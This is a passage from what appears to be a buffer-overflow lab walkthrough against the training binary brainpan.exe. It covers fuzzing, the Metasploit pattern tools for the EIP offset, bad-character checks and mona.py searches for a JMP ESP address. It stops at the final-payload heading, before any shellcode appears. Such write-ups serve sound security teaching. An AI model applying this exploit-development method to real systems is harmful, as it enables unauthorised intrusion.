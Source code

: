 - Modify your script to send a long string (like `"A"*600`) and watch Immunity for an **Access Violation**.
- Confirm that the EIP register gets overwritten with `0x41414141` (which is `'A'` in hex), proving it's a **buffer overflow**.

### **Find the EIP Offset**

- Use Metasploit tools:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

- Replace `"A"*600` in your script with the generated pattern.
- Note the EIP value in Immunity (For example: `35724134`), and find its offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

Suppose it returns **524**, then confirm by sending:

```
"A"*524 + "B"*4 + "C"*(600-524-4)
```

### **Check for Bad Characters**

- Generate a byte string of all possible values (`\x01` to `\xff`):

```python
badchars = b"".join([bytes([x]) for x in range(1, 256)])
```

- Inject it after your 524 `A`s and 4-byte padding.
- Use Immunity → **Right-click ESP → Follow in Dump**, and inspect if any bytes are missing or altered.
- Exclude bad chars.

### **Find a JMP ESP Instruction**

- Install and use `mona.py`:

```
!mona modules
```

Look for a module with no memory protections (like DEP, ASLR, etc.).

- Find the `JMP ESP` address in the chosen module:

```
!mona find -s "\xff\xe4" -m brainpan.exe
```

- Suppose the address is `0x311712f3`, convert it to little-endian:


### **Create the Final Exploit Payload**
